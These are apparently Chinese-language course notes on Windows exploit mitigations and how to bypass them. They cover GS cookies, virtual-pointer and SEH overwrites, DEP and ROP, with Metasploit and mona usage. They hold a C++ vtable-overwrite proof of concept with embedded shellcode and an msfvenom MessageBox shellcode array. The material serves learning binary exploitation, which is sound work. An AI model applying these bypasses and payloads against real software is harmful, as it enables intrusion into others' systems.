GS 和  DEP 都是用来对抗栈溢出的

### GS（安全检查）

#### 1.GS 安全编译选项的保护原理

-   针对缓冲区溢出时覆盖函数返回地址这一特征，微软在编译程序时使用了一个很酷的安全编译选项——GS，在 Visual Studio 2003 (VS 7.0)及以后版本的 Visual Studio 中默认启用GS。
-   设置路径：项目属性 → C/C++→ 代码生成 → 安全检查。



-   GS 编译选项为每个函数调用增加了一些额外的数据和操作，用以检测栈中的溢出。 
-   在所有函数调用发生时，向栈帧内压入一个额外的随机 DWORD，这个随机数被称做“canary”，IDA 反汇编会将这个随机数标注为“Security Cookie”。(该值由系统时间   线程ID   进程ID   时钟周期 通过一系列运算得到  ,在跟ebp 作异或运算 相当于随机数 )
-   Security Cookie 位于 EBP 之前，系统还将在.data的内存区域中存放一个 Security Cookie的副本，如下图所示。268 
-   当栈中发生溢出时，Security Cookie 将被首先淹没，之后才是 EBP 和返回地址。 
-   在函数返回之前，系统将执行一个额外的安全验证操作，被称做 Security check。 
-   在 Security Check 的过程中，系统将比较栈帧中原先存放的 Security Co okie 和.data 中副本的值，如果两者不吻合，说明栈帧中的 Security Cookie 已被破坏，即栈中发生了溢出。



-   当检测到栈中发生溢出时，系统将进入异常处理流程，函数不会被正常返回，ret 指令也不会被执行，如图所示。



-   但是额外的数据和操作带来的直接后果就是系统性能的下降，为了将对性能的影响降到最小，编译器在编译程序的时候并不是对所有的函数都应用 GS，以下情况不会应用 GS。 

-   -   （1）函数不包含缓冲区。 
    -   （2）函数被定义为具有变量参数列表。 
    -   （3）函数使用无保护的关键字标记。 
    -   （4）函数在第一个语句中包含内嵌汇编代码。 
    -   （5）缓冲区不是 8 字节类型且大小不大于 4 个字节。

-   有例外就有利用这些例外突破 GS 的情况。当然微软的工程师也发现了这个问题，因此他们为了在性能与安全之间找到一个平衡点，在 Visual S tudio 2005 SP1 起引入了一个新的安全标识：#pragma strict_gs_check。

```c++
#include"stdafx.h" 
#include"string.h" 
#pragma strict_gs_check(on) // 为下边的函数强制启用 GS 
intvulfuction(char * str) 
{ 
 chararry[4]; 
 strcpy(arry,str); 
 return 1; 
} 
int_tmain(intargc, _TCHAR* argv[]) 
{ 
 char* str="yeah,i have GS protection"; 
 vulfuction(str); 
 return 0; 
}
```

-   除了在返回地址前添加 Security Cookie 外，在 Visual Studio 2005 及后续版本还使用了变量重排技术，在编译时根据局部变量的类型对变量在栈帧中的位置进行调整，将字符串变量移动到栈帧的高地址。这样可以防止该字符串溢出时破坏其他的局部变量。同时还会将指针参数和字符串参数复制到内存中低地址，防止函数参数被破坏。如图所示。



-   从图 10.1.4 中可以看出，不启用 GS 时，如果变量 Buff 发生溢出变量 i、返回地址、函数参数 arg 等都会被覆盖，而启用 GS 后，变量 Buff 被重新调整到栈帧的高地址，因此当 Buff 溢出时不会影响变量 i 的值，虽然函数参数 arg 还是会被覆盖，但由于程序会在栈帧低地址处保存参数的副本，所以 Buff 的溢出也不会影响到传递进来的函数参数。

#### 绕过GS保护机制

​         开启了GS后,通过溢出到返回地址,通过修改返回地址的值获得执行权限已经行不通了,因为还没运行到ret就被安全检查干掉了

##### 通过猜测cookies值绕过/GS保护机制

/GS保护机制采用了几个较弱的熵源，攻击者可以对其进行计算并使用计算结果来预测cookie值，但是这种犯法只适用于针对本地系统的攻击（攻击者拥有该机器的访问权限）。


##### 通过覆盖虚函数指针绕过

###### ⑴．原理分析：

经过GS编译后的函数在栈中的分布情况如图1-3 所示。

 

图 1-3





-   由上图可知，函数中的buf变量发生溢出的时候有可能影响虚表指针，如果可以控制虚表指针，将其指向我们shellcode，就可以在程序调用时控制程序的流程

```c++
#include "stdafx.h"
#include "string.h"

class GSVirtual {
public :
	void gsv(char * src)
	{
		char buf[200];
		strcpy(buf, src);    //专门构造的漏洞越界修改虚表地址
        //虚函数,走虚表调用
		bar();               // virtual function call
	}
	virtual void  bar()
	{
	}
};
int main()
{

	GSVirtual test;
	test.gsv(
		"\xeb\x06\x90\x90"	
		"\x6e\xd0\x1c\x77"
        
        
		"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
		"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
		"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
		"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
		"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
		"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
		"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
		"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
		"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
		"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
		"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
        
        
        "\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x04\x21\x40"
		);
	return 0;
}
```





##### 通过SEH绕过

​         当有SEH的时候 ,SEH里面有一个函数回调的地址,所以我们可以修改回调函数的地址,然后想办法造一个异常,这样在直行道ret之前就会进异常,然后走回调,因为回调函数地址被我们修改了,这样就可以走shellcode,这样我们就获得了执行代码的机会

​        因此我们需要构造一个SEH,另外就是要想办法让程序触发异常,正常情况下,函数自己不会触发异常,因此需要我们自己来处理,理由把指针置空,这样指针访问内存就会触发异常走SEH


### MSF（Metasploit）

官网:   https://www.metasploit.com/

#### MSF概念

-   Metasploit是一款开源的安全漏洞检测,生成shellcode工具。
-   软件工业中面向对象、封装等概念的提出对漏洞利用、漏洞测试等领域也有着深远的影响。 就像软件开发中的 MFC 架构、.net 架构一样，安全技术领域的开发也有着自己独特的 Frame Work用于协助exploit的迅速开发。通用化漏洞测试、利用平台——MSF（MetaSploit Frame work）就是其中最为著名的一个。MSF对模块和类优秀的封装最大限度地体现了面向对象中代码重用的优点。

#### MSF原理

-   MetaSploit FrameWork 对漏洞利用的几个相对独立的过程进行了很好的封装，把一次入侵攻击简化为对若干个模块的选择与组装。漏洞利用技术中一些相对独立的过程：

1.  1.  **触发漏洞：**缓冲区有多大，第几个字节可以淹没返回地址，用什么样的方法植入代码？ 
    2.  **选取 shellcode：**执行什么样的 shellcode 决定了漏洞利用的性质。例如，是作为安全测试而弹出的一个消息框，还是用于入侵的端口绑定、木马上传等。 
    3.  **重要参数的设定：**目标主机的 IP 地址、bindshell 中需要绑定的端口号、消息框所显示的内容、跳转指令的地址等经常需要在 shellcode 中进行修改。 
    4.  **选用编码、解码算法：**实际应用中的 shellcode 往往需要经过编码（加密）才能安全地送入特定的缓冲区：执行时，位于 shellcode 顶部的若干条解码指令会首先还原出原始的 shellcode，然后执行。

#### kali-linux-2021.3-vmware-amd64.vmwarevm

-   相较于微软平台，在kali运行MSF更快速，命令--msfvenom。
-   **-p    windows/messagebox   -f   raw   -b   '\x0a\x0b\x0c\x20'   -o    shellcode**
-    -p    生成shellcode的函数
-   -f      生成shellcode的格式  (raw  16进制值)
-   -b     生成的  shellcode 代码中不会出现的字节
-   -o     生成的 shellcode 的 文件名



```
unsigned AnsiChar data[272] = {
	0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31, 0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71, 
	0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B, 0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38, 
	0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF, 0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45, 
	0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B, 0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3, 
	0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31, 0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74, 
	0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4, 0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A, 
	0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B, 0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01, 
	0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2, 0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68, 
	0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8, 
	0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E, 0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C, 
	0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64, 0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88, 
	0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55, 0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D, 
	0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF, 0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68, 
	0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73, 0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89, 
	0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x4D, 0x53, 0x46, 0x21, 0x68, 0x72, 0x6F, 0x6D, 0x20, 
	0x68, 0x6F, 0x2C, 0x20, 0x66, 0x68, 0x48, 0x65, 0x6C, 0x6C, 0x31, 0xC9, 0x88, 0x4C, 0x24, 0x10, 
	0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51, 0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55, 0x08
};

这个不能直接用,因为需要入栈,但他没有抬栈,会导致最开始的数据被改了,因此需要在前面 加抬栈指令
```








注意:  msf生成的shllcode 需要填充前面16个字节，因为它是利用浮点重定位进行自解码。所以，会修改值，需要留空给他填。

### KALI

集成了很多逆向,安全相关的工具,而且有全套的安卓逆向工具

https://www.kali.org/


### 


### DEP(data execution protection)

#### 概念

-   在没有执行权限的内存上执行代码，会抛异常
-   在CFF中的标志 Image NX 标志
-   

#### 种类

#### 硬件DEP，cpu支持的

-   选项开关：我的电脑-> 属性-> 高级 ->数据执行保护。
-   

#### 软件DEP，VS链接选项

-   选项开关：vs项目 -> 属性 -> 链接器 -> 高级 -> 数据执行保护(DEP)
-   


#### 对抗方法思路：

-   修改栈内存属性。
-   关闭软件DEP，通过API。（Setinfomationprocess）
-   申请新的内存，这块新内存具有可执行权限。

悖论：由于不管以上那个思路，都需要执行一段代码才能实现，但是内存没有执行权限，与现实相互矛盾。由此，有了以下的方法。

### ROP (return oriented programming)

#### ROP概念

-   面向return编程
-   将调用函数需要的参数等一一通过程序中现有代码地址给构造出来，且这些地方都必须要有执行权限。


##### ROP原理

-   构造执行各个参数的值，将参数都赋值到各个寄存器，最好pushad寄存器，相当于传参。

```c++

virtualproctect（addr, len, page_rwx）

label1:
push page_rwx
ret

label2:
push len
ret

label3:
push addr
ret 

label4:
push virtualproctect
ret

栈结构如下：
label1: <- Eip
label2:
label3:
label4:

栈上不放指令,而是放代码段地址  通过不断的返回执行他原本的指令,达到能够通过  
virtualproctect去修改他的内存属性,这样就可以执行我们的shellcode
```

由于构造ROT手动构造的困难，所以有爱好者开发了工具来进行各个命令的搜索。

### OD插件

[📎OllyFindAddr.zip](./OllyFindAddr.zip)








### Immunity Debuger 调试器

-   简介：Immunity Debgger是一个debug调试器,二进制漏洞的调试器
-   特点：支持python脚本
-   用途：利用mona脚本构造ROP链
-   使用：

-   -   \1. 操作：和OD完全一样，怀疑就是OD的源码


##### mona (python脚本)

[📎mona-master.zip](./mona-master.zip)

-   工具名称：mona.py
-   语言种类：python 脚本
-   支持的调试器：`immunity Debugger` 、`WinDBG`、`WinDBG x64`
-   使用：放python插件的文件



-   -   immunity 调试器的LOG窗口中输入命令   !mona rop
